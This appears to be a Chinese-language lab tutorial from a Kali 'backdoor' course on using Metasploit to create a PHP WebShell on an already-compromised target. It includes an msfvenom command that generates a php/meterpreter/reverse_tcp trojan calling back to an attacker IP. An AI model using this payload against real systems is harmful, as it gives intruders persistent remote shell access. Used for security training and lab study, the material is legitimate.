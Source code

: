 一般情况下，Metasploit 创建 WebShell 至少需要经过这四个阶段，即先生成木马，接着再上传到目标靶机，进入使用 Msfconsole 进行攻击，流程图如图所示：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1481007266976.png-wm)

Metasploit 创建 WebShell 的流程为，先使用 Msfvemon 生成一个木马文件，通过将木马文件上传至目标靶机，建立起攻击机和目标靶机两者之间的连接。而通常在这个过程中，我们需要掌握的知识点，主要分为这两点：

- 如何生成木马文件？
- 上传木马文件到目标靶机后，如何获取 WebShell？

在这个 Kali 后门实战这个训练营中，上传木马需要目标靶机的管理权限。所以我们的实验都是建立在已经攻陷了目标主机，获取了目标靶机管理权限的情况下。一般在渗透攻击实战中，在攻陷对方主机后，为了后续步骤的进行，我们需要上传一个木马，从而达到再次访问该主机的目的。

该后门实战阶段，也可以叫做后渗透阶段。如果对于如何攻陷目标主机这一课程感兴趣的同学，也可以学习一下实验楼的另一门训练营，该课程专门介绍如何利用漏洞攻陷目标靶机，也是一门动手实践的课程，课程地址为：

> Kali 服务器攻击实战：https://www.shiyanlou.com/courses/698

### 3.2 工具介绍

生成木马的工具在安全信息攻防中数不胜数，而在这个 Metasploit 创建 WebShell 的实验中，我们生成木马的工具为 `Msfvenom`，下面是一段关于 Msfvenom 的简短介绍：

> Msfvenom 是 Msfpayload 与 Msfencode 的结合体。Msfvenom 同时具备了 Msfpayload 和 Msfencode 的优点。其优点特征是单一，命令行使用，效率高。

在许多的安全攻防过程中，不论是黑客还是信息安全人士，都非常喜欢使用`Metasploit`，它是一款开源的工具：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1481007663790.png-wm)

> Metasploit 是一款开源的安全漏洞检测工具，可以帮助安全和IT专业人士识别安全性问题，验证漏洞的缓解措施，并管理专家驱动的安全性进行评估，提供真正的安全风险情报。这些功能包括智能开发，代码审计，Web 应用程序扫描，社会工程。团队合作，在 Metasploit 和综合报告提出了他们的发现。这款工具，附带数百个已知的漏洞，并保持频繁更新。被整个安全社区冠以"可以黑掉整个宇宙"外号的渗透框架。


## 四、过程实现

### 4.1 生成 PHP 木马

一般情况下，要根据目标靶机的情况来制定相应的木马程序。通常木马程序受目标靶机所运行的环境影响，在本实验中，木马的运行环境只要是能运行 PHP 代码的环境即可。上一节介绍了基本的工具背景之后，我们在实验楼的 Kali Linux 环境下，使用如下命令创建一个 PHP 木马文件，文件名为 `hello.php`：

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.122.101 -f raw > hello.php
```
这句话的意思是输入生成攻击者主机的 IP 地址为 `192.168.122.101` ，其中命令参数含义如下列表：

| 参数名称 | 所代表含义                                                   |
| -------- | ------------------------------------------------------------ |
| `-p`     | 指定需要使用的 payload (攻击荷载)。                          |
| `-l`     | 列出指定模块的所有可用资源。                                 |
| `-f`     | 指定输出格式 (使用 --help-formats 来获取 msf 支持的输出格式列表) |
| `-v`     | 指定一个自定义的变量，以确定输出格式。                       |

成功之后如图所示：
